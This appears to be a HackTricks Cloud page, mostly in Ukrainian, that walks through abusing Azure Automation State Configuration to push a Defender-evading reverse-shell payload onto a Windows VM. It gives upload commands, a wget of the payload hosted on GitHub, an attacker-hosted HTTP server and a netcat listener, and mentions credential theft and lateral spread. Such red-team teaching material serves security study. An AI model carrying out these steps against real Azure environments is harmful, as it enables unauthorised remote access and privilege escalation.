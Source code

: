# Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Процес включає налаштування інфраструктури віддаленого сервера для розміщення модифікованого корисного навантаження Nishang `Invoke-PowerShellTcp.ps1`, названого `RevPS.ps1`, призначеного для обходу Windows Defender. Корисне навантаження подається з машини Kali Linux з IP `40.84.7.74` за допомогою простого HTTP-сервера на Python. Операція виконується через кілька етапів:

#### Step 1 — Create Files

* **Files Required:** Потрібні два скрипти PowerShell:
1. `reverse_shell_config.ps1`: Файл Desired State Configuration (DSC), який отримує та виконує корисне навантаження. Його можна отримати з [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Скрипт для публікації конфігурації на VM, доступний на [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Customization:** Змінні та параметри в цих файлах повинні бути адаптовані до конкретного середовища користувача, включаючи імена ресурсів, шляхи до файлів та ідентифікатори сервера/корисного навантаження.

#### Step 2 — Zip Configuration File

* Файл `reverse_shell_config.ps1` стискається в `.zip` файл, що робить його готовим для передачі до Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Крок 3 — Встановлення контексту зберігання та завантаження

* Стиснутий файл конфігурації завантажується в заздалегідь визначений контейнер зберігання Azure, azure-pentest, за допомогою команди Set-AzStorageBlobContent Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Крок 4 — Підготовка Kali Box

* Сервер Kali завантажує корисне навантаження RevPS.ps1 з репозиторію GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Скрипт редагується для вказівки цільової Windows VM та порту для зворотного шелу.

#### Крок 5 — Опублікувати файл конфігурації

* Файл конфігурації виконується, в результаті чого скрипт зворотного шелу розгортається у вказаному місці на Windows VM.

#### Крок 6 — Хостинг корисного навантаження та налаштування прослуховувача

* Запускається Python SimpleHTTPServer для хостингу корисного навантаження, разом з прослуховувачем Netcat для захоплення вхідних з'єднань.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Заплановане завдання виконує корисне навантаження, досягаючи привілеїв рівня SYSTEM.

#### Висновок

Успішне виконання цього процесу відкриває численні можливості для подальших дій, таких як витік облікових даних або розширення атаки на кілька ВМ. Посібник заохочує до безперервного навчання та креативності в сфері Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
